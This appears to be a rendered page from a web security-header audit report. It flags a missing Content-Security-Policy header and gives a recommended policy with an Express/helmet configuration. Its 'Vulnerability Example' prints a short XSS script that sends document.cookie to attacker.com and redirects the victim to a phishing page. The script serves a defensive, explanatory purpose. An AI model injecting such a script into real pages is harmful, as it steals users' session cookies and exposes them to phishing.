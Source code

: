 
### ❌ Missing Headers (5)

#### Content-Security-Policy
**Status**: 🔴 MISSING - CRITICAL
**Grade**: F
**Risk**: High - XSS attacks possible

**Current**: Not set
**Impact**:
- No protection against XSS attacks
- JavaScript can be injected from any source
- Inline scripts execute without restriction
- Third-party resources load without control

**Vulnerability Example**:
```html

<script>
  // Steal cookies
  fetch('https://attacker.com/steal?cookie=' + document.cookie);

  // Hijack session
  window.location = 'https://attacker.com/phishing';
</script>
```

**Recommended Configuration**:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-{random}'; style-src 'self' 'unsafe-inline'; img-src 'self' https: data:; font-src 'self'; connect-src 'self' https://api.example.com; frame-ancestors 'none'; base-uri 'self'; form-action 'self'; upgrade-insecure-requests
```

**Implementation**:

**Express.js**:
```javascript
const helmet = require('helmet');

app.use(helmet.contentSecurityPolicy({
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", "'nonce-{random}'"],
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", "https:", "data:"],
    fontSrc: ["'self'"],
    connectSrc: ["'self'", "https://api.example.com"],
    frameAncestors: ["'none'"],
    baseUri: ["'self'"],
    formAction: ["'self'"],
    upgradeInsecureRequests: []
  }
}));
```
